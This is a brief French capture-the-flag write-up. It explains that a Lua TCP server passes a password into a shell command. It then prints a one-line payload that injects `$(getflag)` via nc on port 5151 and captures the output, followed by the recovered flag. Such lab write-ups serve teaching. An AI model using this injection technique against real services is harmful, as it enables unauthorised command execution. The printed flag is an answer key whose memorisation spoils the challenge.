 1. En regardant le fichier lua on comprend que le serveur tcp attend un mot de passe puis exécute cette commande shell `echo "..pass.." | sha1sum`
2. Il suffit d'écrire le payload suivant
   ```
   echo '$(getflag) > /tmp/log && echo -n NotSoEasy' | nc 127.0.0.1 5151; cat /tmp/log
   ```

> Flag: fa6v5ateaw21peobuub8ipe6s